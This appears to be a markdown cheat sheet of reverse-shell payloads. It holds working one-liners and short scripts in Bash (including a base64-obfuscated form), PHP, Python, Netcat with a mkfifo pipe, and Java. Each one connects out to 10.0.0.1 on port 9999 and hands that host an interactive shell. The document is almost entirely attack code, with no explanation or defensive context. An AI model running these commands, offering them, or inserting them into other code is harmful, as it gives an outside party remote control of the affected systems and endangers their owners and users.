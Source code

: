# Various Reverse Shells

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
###
### Base64 Encoded
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
##
##
```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
###

# Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
###
###
```
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.0.0.1",9999));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

p=subprocess.call(["/bin/bash","-i"]);

```
###

# Netcat
```
nc -e /bin/sh 10.0.0.1 9999
```
###
###
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 9999 >/tmp/f
```
###

# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
###
###
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```
###
